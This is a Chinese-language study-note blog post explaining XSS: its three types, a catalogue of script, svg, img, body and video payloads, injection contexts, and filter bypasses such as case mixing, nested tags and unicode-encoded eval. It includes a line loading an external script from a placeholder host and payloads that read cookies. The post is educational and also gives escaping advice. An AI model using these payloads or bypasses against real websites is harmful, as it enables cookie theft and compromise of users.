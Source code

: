 ```yaml
---
title: 随记(23)—XSS攻击
date: 2021-03-30
author: LM
tags: ["随记"]
---
```


> 参考原文：[ XSS(跨站脚本攻击)详解  @615 ](https://www.cnblogs.com/wuqun/p/12484816.html)

## 1.简单介绍

HTML注入与XSS攻击简单来说就是当用户在输入框输入内容，后台对输入内容不做处理直接添加入页面。此时，**用户就可以刻意填写HTML、JavaScript脚本来作为文本输入**，这样这个页面就会出现一些用户加入的东西了，这是一种脚本注入。

```html
<a href=http://www.baidu.com>Click Me</a>
```

当然有些稍微有点脑子的网站会屏蔽 script 标签的输入，但是我们大可以利用类似于以下的语句注入脚本。

```html
<img src=1 οnerrοr=alert(1) />
<scr<script>ipt>
```

因此，相比起过滤script标签，建议采用更加高明的过滤'<''>''&'等符号。事实上html定义了几个特定符号专门用来表示这几个符号的，比如用&amp来代替&符号等。

## 2.XSS

跨站脚本攻击XSS(Cross Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页面时，嵌入Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。XSS攻击针对的是用户层面的攻击！

XSS攻击主要分为以下三种

- 存储型XSS：存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，插入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie
- 反射型XSS：非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。反射型XSS大多数是用来盗取用户的Cookie信息
- DOM型XSS：不经过后端，DOM-XSS漏洞是基于文档对象模型(Document Objeet Model,DOM)的一种漏洞，DOM-XSS是通过url传入参数去控制触发的，其实也属于反射型XSS。可能触发DOM型XSS的属性有：document.referer，window.name，location，innerHTML，documen.write。具体操作是在URL中传入参数的值，然后客户端页面通过js脚本利用DOM的方法获得URL中参数的值，再通过DOM方法进行赋值或其他操作

## 3.XSS的攻击载荷

以下所有标签的 > 都可以用 // 代替

### script标签

```html
<script>alert("hack")</script>   #弹出hack
<script>alert(/hack/)</script>   #弹出hack
<script>alert(1)</script>        #弹出1，对于数字可以不用引号
<script>alert(document.cookie)</script>      #弹出cookie
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
```

### svg标签

```html
<svg onload="alert(1)">
<svg onload="alert(1)"//
```

### img标签

```html
<img  src=1  οnerrοr=alert("hack")>
<img  src=1  οnerrοr=alert(document.cookie)>  #弹出cookie
```

### body标签

```html
<body οnlοad=alert(1)>
<body οnpageshοw=alert(1)>
```

### video标签

```html
<video οnlοadstart=alert(1) src="/media/hack-the-planet.mp4" />
```

### style标签

```html
<style οnlοad=alert(1)></style>
```

## 4.XSS可以插在哪里？

- 用户输入作为script标签内容
- 用户输入作为HTML注释内容
- 用户输入作为HTML标签的属性名
- 用户输入作为HTML标签的属性值
- 用户输入作为HTML标签的名字
- 直接插入到CSS里
- 最重要的是，千万不要引入任何不可信的第三方JavaScript到页面里！

```html
<!-- 用户输入作为HTML注释内容，导致攻击者可以进行闭合绕过-->
<!-- --><script>alert('hack')</script><!-- -->
<!-- 用户输入作为标签属性名，导致攻击者可以进行闭合绕过-->
<div 用户输入="xx">  </div>
<div ></div><script>alert('hack')</script><div a="xx"> </div>
<!-- 用户输入作为标签属性值，导致攻击者可以进行闭合绕过-->
<div id="用户输入"></div>
<div id=""></div><script>alert('hack')</script><div a="x"></div>
<!-- 用户输入作为标签名，导致攻击者可以进行闭合绕过-->
<用户输入  id="xx" />
<><script>alert('hack')</script><b id="xx" />
<!-- 用户输入作为CSS内容，导致攻击者可以进行闭合绕过-->
<style>用户输入<style>
<style> </style><script>alert('hack')</script><style> </style>
```

## 5.XSS漏洞的挖掘 

尽可能找到一切用户可控并且能够输出在页面代码中的地方，比如下面这些：

- URL的每一个参数
- URL本身
- 表单
- 搜索框

常见业务场景

- 重灾区：评论区、留言区、个人信息、订单信息等
- 针对型：站内信、网页即时通讯、私信、意见反馈
- 存在风险：搜索框、当前目录、图片属性等

## 6.XSS的简单过滤和绕过

### a.区分大小写过滤标签

```html
<!-- 可以使用大小写绕过-->
<scripT>alert('hack')</scripT>
<sCript>alert("hey!")</scRipt>
```

### b.不区分大小写过滤标签

```html
<!-- 可以使用嵌套的script标签绕过 --> 
<scr<script>ipt>alert('hack')</scr</script>ipt>
```

### c.不区分大小写，过滤之间的所有内容

```html
<!-- 虽然无法使用<script>标签注入XSS代码，但是可以通过img、body等标签的事件或者 iframe 等标签的 src 注入恶意的 js 代码。onerror事件是专门针对js出错的，标签闭合性被破坏会触发这个事件。--> 
 <img src=1 οnerrοr=alert('hack')>
```

### d.编码脚本代码绕过关键字过滤

```html
<!-- 有的时候，服务器往往会对代码中的关键字（如alert）进行过滤，这个时候我们可以尝试将关键字进行编码后再插入，不过直接显示编码是不能被浏览器执行的，我们可以用另一个语句eval（）来实现。eval()会将编码过的语句解码后再执行，简直太贴心了。例如alert(1)编码过后就是 \u0061\u006c\u0065\u0072\u0074(1)--> 
<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>
```

### e.主动闭合标签实现注入代码

```html
<!-- 有些注入点出现在链接或属性中，此时可以使用"主动的闭合标签，实现代码的注入-->
";alert("I am coming again~");"
```

